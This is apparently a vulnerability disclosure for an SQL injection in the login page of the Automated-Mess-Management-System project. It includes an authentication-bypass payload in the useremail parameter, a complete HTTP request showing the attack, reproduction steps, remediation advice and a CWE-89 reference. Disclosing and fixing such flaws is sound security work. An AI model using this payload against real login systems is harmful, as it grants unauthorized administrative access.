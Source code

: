 # boyiddha / Automated-Mess-Management-System - SQL Injection Login

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The SQL Injection vulnerability in the login functionality of the Automated-Mess-Management-System allows attackers to bypass authentication mechanisms and gain unauthorized access to the admin panel. By injecting malicious SQL queries, attackers can manipulate the login process to always return true, granting them elevated privileges without valid credentials.

## Proof of Concept
Step 1: Attempt to log in with a non-existing email address and a random password.\
Step 2: Intercept the login request and inject the following payload into the 'useremail' parameter: "`+or+1%3d1+%23+limit+1+%23". This payload exploits the SQL injection vulnerability by modifying the query to always return true, effectively bypassing the authentication process.\
Step 3: Submit the modified request and observe that the application redirects you to the admin panel without requiring valid credentials, granting unauthorized access.

## HTTP Request Example
``` http request
POST /index.php HTTP/1.1
Host: [REDACTED]
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

userType=Admin&useremail='+or+1%3d1+%23+limit+1+%23&password=NoChizPlz&login=
```
## Proof with Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/6c3ed090-6e14-40a4-94ba-9ca5439aaeef)


## Remidiation
To mitigate this vulnerability, developers should implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, enforcing the principle of least privilege by limiting the permissions of database users and implementing robust authentication mechanisms can help prevent unauthorized access to sensitive areas of the application.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
